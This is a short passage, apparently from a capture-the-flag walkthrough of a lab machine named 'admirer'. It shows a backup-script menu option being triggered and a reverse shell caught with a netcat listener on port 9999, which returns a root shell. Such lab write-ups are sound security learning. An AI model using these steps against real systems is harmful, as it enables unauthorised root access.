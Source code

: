 ```bash
Choose an option: 6
Running backup script in the background, it might take a while...
```
Catch the reverse shell.
```bash
kali@kali:~/Desktop$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on admirer 58310
whoami
root
```